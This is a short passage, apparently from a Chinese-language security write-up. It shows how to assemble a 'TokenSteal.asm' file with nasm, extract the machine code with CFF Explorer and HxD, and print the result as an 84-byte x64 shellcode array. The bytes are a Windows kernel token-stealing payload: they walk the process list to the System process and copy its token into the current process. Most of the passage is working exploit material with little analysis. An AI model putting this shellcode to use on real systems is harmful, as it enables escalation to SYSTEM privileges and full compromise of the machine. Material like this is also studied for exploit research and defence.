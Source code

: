 使用 nasm

```bash
& "C:\Users\xxxx\AppData\Local\bin\NASM\nasm.exe" -f win64 .\TokenSteal.asm -o .\TokenSteal.bin
```

编译出的文件位 COFF 格式，要提取出来，这里我用的是`CFF Explore`的快速反汇编定位到代码然后用`HxD`提取的

[![](assets/1706090578-acb8f9ba20268956674348221806d74d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132706-e1d3abd2-b8e6-1.png)

```bash
unsigned char cmd[84] = {
    0x48, 0x31, 0xC0, 0x65, 0x48, 0x8B, 0x80, 0x88, 0x01, 0x00, 0x00, 0x48,
    0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xC1, 0x48, 0x8B, 0x80,
    0x48, 0x04, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48, 0x8B, 0x50, 0xF8, 0x49,
    0x89, 0xC0, 0x48, 0x8B, 0x00, 0x48, 0x83, 0xFA, 0x04, 0x75, 0xF0, 0x49,
    0x8B, 0x50, 0x70, 0x48, 0x83, 0xE2, 0xF8, 0x49, 0x8B, 0x89, 0xB8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xE1, 0x07, 0x48, 0x01, 0xCA, 0x49, 0x89, 0x91,
    0xB8, 0x04, 0x00, 0x00, 0x48, 0x31, 0xC0, 0x48, 0x83, 0xC4, 0x10, 0xC3
};
```

[![](assets/1706090578-fc6c84f9a51471fd82daf0072f4fe4f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132720-e9df8896-b8e6-1.png)
